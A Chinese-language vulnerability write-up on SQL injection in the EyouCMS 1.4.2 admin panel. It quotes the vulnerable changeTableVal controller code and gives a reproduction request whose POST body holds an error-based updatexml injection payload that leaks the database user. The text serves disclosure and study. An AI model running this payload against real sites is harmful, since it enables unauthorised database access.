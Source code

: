 Eyoucms 1.4.2 后台注入
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

/application/admin/controller/Index.php

    public function changeTableVal()
    {
        if (IS_AJAX_POST) {
            $url = null;
            $data = [
                'refresh'   => 0,
            ];
            $table = input('post.table/s'); // 表名
            $id_name = input('post.id_name/s'); // 表主键id名
            $id_value = input('post.id_value/s'); // 表主键id值
            $field  = input('post.field/s'); // 修改哪个字段
            $value  = input('post.value/s', '', null); // 修改字段值  
            switch ($table) {
                // 会员等级表
                case 'users_level':
                    {
                        $return = model('UsersLevel')->isRequired($id_name,$id_value,$field,$value);
                        if (is_array($return)) {
                            $this->error($return['msg']);
                        }
                    }
                    break;
                
                // 会员属性表
                case 'users_parameter':
                    {
                        $return = model('UsersParameter')->isRequired($id_name,$id_value,$field,$value);
                        if (is_array($return)) {
                            $this->error($return['msg']);
                        }
                    }
                    break;
                
                // 会员中心菜单表
                case 'users_menu':
                    {
                        Db::name('users_menu')->where('id','gt',0)->update([
                                'is_userpage'   => 0,
                                'update_time'   => getTime(),
                            ]);
                        $data['refresh'] = 1;
                    }
                    break;
                
                // 会员投稿功能
                case 'archives':
                    {
                        if ('arcrank' == $field) {
                            if (0 == $value) {
                                $value = -1;
                            }else{
                                $value = 0;
                            }
                        }
                    }
                    break;
                // 会员产品类型表
                case 'users_type_manage':
                    {
                        if (empty($value)) {
                            $this->error('不可为空');
                        }
                    }
                    break;
                default:
                    # code...
                    break;
            }
            $savedata = [
                $field => $value,
                'update_time'   => getTime(),
            ];
            M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据
            // 以下代码可以考虑去掉，与行为里的清除缓存重复 AppEndBehavior.php / clearHtmlCache
            switch ($table) {
                case 'auth_modular':
                    extra_cache('admin_auth_modular_list_logic', null);
                    extra_cache('admin_all_menu', null);
                    break;
                
                default:
                    // 清除logic逻辑定义的缓存
                    extra_cache('admin_'.$table.'_list_logic', null);
                    // 清除一下缓存
                    // delFile(RUNTIME_PATH.'html'); // 先清除缓存, 否则不好预览
                    \think\Cache::clear($table);
                    break;
            }
            /*清除页面缓存*/
            // $htmlCacheLogic = new \app\common\logic\HtmlCacheLogic;
            // $htmlCacheLogic->clear_archives();
            /*--end*/
            
            $this->success('更新成功', $url, $data);
        }
    }

第307行：

    M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据

直接将函数头获取的POST传入SQL语句里面：

    $table = input('post.table/s'); // 表名
    $id_name = input('post.id_name/s'); // 表主键id名
    $id_value = input('post.id_value/s'); // 表主键id值
    $field  = input('post.field/s'); // 修改哪个字段
    $value  = input('post.value/s', '', null); // 修改字段值

### 漏洞复现

payload：

    http://0-sec.org/eyou/?m=admin&c=Index&a=changeTableVal


    post:

    table=admin&id_name=admin_id&id_value='1'//and//updatexml(1,concat(0x7e,user(),0x7e),1)

![](resource/Eyoucms1.4.2后台注入/media/rId26.png)

四、参考链接
------------

> http://www.f4ckweb.top/index.php/archives/47/
